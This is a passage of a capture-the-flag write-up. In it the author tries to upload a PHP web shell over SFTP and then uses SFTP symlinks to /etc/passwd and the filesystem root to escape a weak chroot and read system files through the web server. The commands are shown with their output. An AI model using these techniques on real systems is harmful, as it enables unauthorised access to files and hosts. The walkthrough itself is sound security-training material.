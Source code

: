 #### Shell Upload - Fail

I can go for a simple php shell upload:

```

sftp> put /opt/shells/php/cmd.php 
Uploading /opt/shells/php/cmd.php to /public_html/cmd.php
/opt/shells/php/cmd.php 

sftp> ls
cmd.php   index.html

```

It seems to work. But the site doesn’t load it:

![1559681697565](https://0xdfimages.gitlab.io/img/1559681697565.png)

In fact, if I use `rename` to move `index.html`, I can see the dir listing, but it doesn’t show `cmd.php` either:

![1559681785589](https://0xdfimages.gitlab.io/img/1559681785589.png)

## Admin Panel Access

### SFTP Symlinks

There’s two commands in the SFTP help that jump out: `ln [-s] oldpath newpath` and `symlink oldpath newpath`. These commands are actually the same. I wonder if I can make links to paths outside my current visibility. First create a link for `/etc/password`:

```

sftp> symlink /etc/passwd passwd
sftp> ls
cmd.php   old.html  passwd  

```

It shows in the dirlist through the webserver:

![1559682044710](https://0xdfimages.gitlab.io/img/1559682044710.png)

And I can load it (at least some version of it):

![1559682080171](https://0xdfimages.gitlab.io/img/1559682080171.png)

This might be the poor `chroot` implementation hinted at during enumeration.

I’ll link the system root:

```

sftp> rm passwd
Removing /public_html/passwd

sftp> symlink / root

```
